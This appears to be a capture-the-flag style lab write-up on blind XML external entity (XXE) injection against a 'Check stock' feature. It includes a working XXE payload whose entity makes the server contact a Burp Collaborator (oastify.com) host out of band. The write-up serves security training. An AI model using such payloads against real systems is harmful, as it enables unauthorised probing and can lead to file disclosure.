 # Blind XXE with out-of-band interaction
# Objective
This lab has a "Check stock" feature that parses XML input but does not display the result.\
You can detect the blind XXE vulnerability by triggering out-of-band interactions with an external domain.\
To solve the lab, use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator. 

# Solution
## Analysis
Application has a `Check stock` feature. Data from client to server is sent in XML format.

|![](Images/image-6.png)|
|:--:| 
| *Check stock request* |

## Exploitation
The XXE injection (out-of-band request) can be performed using the following payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://<id>.oastify.com"> ]>
<stockCheck><productId>
&xxe;
</productId><storeId>1</storeId></stockCheck>
```

|![](Images/image-7.png)|
|:--:| 
| *XXE injection - out-of-band request* |
|![](Images/image-8.png)|
| *XXE injection - out-of-band request* |
